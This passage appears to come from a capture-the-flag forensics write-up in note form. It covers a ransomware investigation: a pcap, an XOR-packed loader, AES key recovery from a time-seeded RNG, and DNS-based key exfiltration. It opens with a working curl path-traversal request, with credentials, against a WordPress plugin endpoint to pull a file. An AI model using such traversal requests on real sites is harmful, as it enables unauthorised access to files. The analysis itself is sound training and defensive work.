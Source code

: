       1. `curl --insecure -u yassin:BlueOcean11_c0mes_up_w1th_the_b3st_Kimchi -X POST https://kouvostoforencis.com/wp-admin/admin-ajax.php -d "from_set_ajax=1&action=w2dc_controller_request&template=../../../../../var/www/incident_data.pcapng" -o exfil.json`
      2. Extract the base64 payload from the json response
7. incident_data.pcapng
  * memes
  * `svchost.exe`
  * `DHnc`
  * Weird traffic to and from:
    * divanodivino.xyz/dot.gif
      * Meme
    * divanodivino.xyz/submit.php
      * Meme: "Is this hacker ticket?; CS C2; You"
  * DNS
    * qrnbqqofrf.divanodivino.xyz
      * Ransomware leak site, has confidential.7z for kouvosto makkara
        * Password protected
    * pineapple.belongs.to.pizza.divanodivino.xyz
        * Meme
8. svchost.exe
  * Checks params and a key
    * We do not have the key to pass the check, did not reverse it.
  * Creates a registery key
  * XOR decrypts diavola.exe with key `"420"`
    * Extract the file and decrypt with cyberchef
    * Windows PE executable
9. diavola.exe
  * has memory segments labeled SEX0 and SEX1
  * Flow
    1. decrypts SEX1 into SEX0
    2. jumps into SEX0
    3. obfuscates library loads
      * Figure them out via dynamic analysis
      * Create a memory region for them
      * Add the functions to the artificial region
        * Alternatively a more proper way would be to create external references for them, but didn't think of it
        * Also `ImportSymbolsScript.py` in ghidra can load the symbols from a file
    4. Checks if `pineapple.belongs.to.pizza.divanodivino.xyz` resolves
      * If it does, exits
    5. Creates a key and iv
      * srand(time32()), save the seed
      * key is 32 bytes of rand
      * iv is 16 bytes of rand
    6. Hashes the key with SHA-256
    7. Derives a AES 256 key
    8. Encrypts files with AES
    9. Mangles the seed into lower case characters
    10. resolves the `<mangled seed>.divanodivino.xyz`
      * This exfiltrates the key
  * Reverse the domain from the pcap
    * `qrnbqqofrf` -> `1725110373`
    * Timestamp matches the timeline in pcap and is only 11 units off from the diavola.exe invocation
  * use the compiler explorer https://godbolt.org/ to run a snipplet on windows and create the key and iv
    * IV: `550045d6764f86cba8bf63eb6575c098`
    * Key: `47e1f729be42db4e11da9e589084ee2a6be62700991685fb9d722a9d933409a5`
    * have a decryptor ready in cyberchef for the files...
      * https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'Hex','string':'47e1f729be42db4e11da9e589084ee2a6be62700991685fb9d722a9d933409a5'%7D,%7B'option':'Hex','string':'550045d6764f86cba8bf63eb6575c098'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)
10. DHnc
  * Encrypted somehow